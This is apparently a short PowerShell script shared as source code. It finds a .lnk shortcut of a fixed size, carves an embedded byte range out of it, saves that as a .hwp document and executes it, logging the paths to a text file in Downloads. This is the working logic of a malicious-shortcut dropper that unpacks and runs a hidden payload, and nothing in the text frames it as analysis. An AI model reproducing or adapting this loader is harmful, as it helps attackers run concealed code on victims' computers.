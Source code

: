 $lk=ls -Path '.\' -filter '*.lnk';
for($a = 0;$a -lt $lk.length;$a++){if($lk[$a].length -eq 56397) {$lk=$lk[$a].name;break}}
ac -path "C:\Users\user\Downloads\1.txt" $lk
if($lk -eq $null) {$lk=ls -Path $env:temp -depth 2 | Where {$_.length -eq 56397}};
$n=$lk.name.Replace('.lnk','.hwp');
ac -path "C:\Users\user\Downloads\1.txt" $n
$lk=$lk.FullName;$file = [System.IO.File]::ReadAllBytes($lk);$file1=[byte[]]$file[5709..(5709+50688-1)];
ac -path "C:\Users\user\Downloads\1.txt" $lk
$fsdf=$lk.Replace('.lnk','.hwp');[System.IO.File]::WriteAllBytes($fsdf,$file1);
&$fsdf;











